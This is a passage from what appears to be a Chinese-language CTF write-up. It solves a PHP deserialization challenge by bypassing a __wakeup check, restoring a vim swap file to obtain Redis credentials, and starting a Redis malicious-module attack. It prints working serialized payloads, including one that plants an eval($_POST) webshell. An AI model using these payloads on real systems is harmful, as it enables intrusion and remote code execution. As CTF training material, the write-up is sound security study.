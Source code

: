 ```php
```

然后绕wakeup，改属性数量>实际属性数量即可

还是需要有个正则

```php
preg_match_all('/"[BA]":(.*?):/s',$_REQUEST['poc'],$ret);

if(intval($i)!==1){
	exit("you want to bypass wakeup ? no !");
}

```

由于类名是不区分大小写的，因此只要类名改成小写，绕wakeup改A和改B的属性数量都行

```
O%3A1%3A%22b%22%3A3%3A%7Bs%3A1%3A%22a%22%3BO%3A1%3A%22A%22%3A1%3A%7Bs%3A4%3A%22code%22%3Bs%3A10%3A%22phpinfo()%3B%22%3B%7D%7D

```

![image-20220409183400758](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/202204091834848.png)



有`disable_functions`，还有`open_basedir`

![image-20220409183512746](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/202204091835822.png)

我们先上马

```
O:1:"B":1:{s:1:"a";O:1:"a":2:{s:4:"code";s:16:"eval($_POST[1]);";}}
```

在目录有个`config.php.swp`

对于swp文件

>linux swp文件是一种后缀为“.swp”的文件，该文件是在当使用vi或者vim编辑一个文件时产生的，当编辑完成正常退出时，该文件就会自动删除；swp文件是隐藏文件，在目录下使用“ls -al”才能查看。

我们利用linux命令行还原

`vi -r config.php.swp`

![image-20220409183850698](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/202204091839197.png)

有redis,所以这道题大概率是攻击redis

###  Redis加载恶意so获取shell

我们先利用蚁剑redis插件

![](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/202204091843205.png)

发现连接上了，可以用
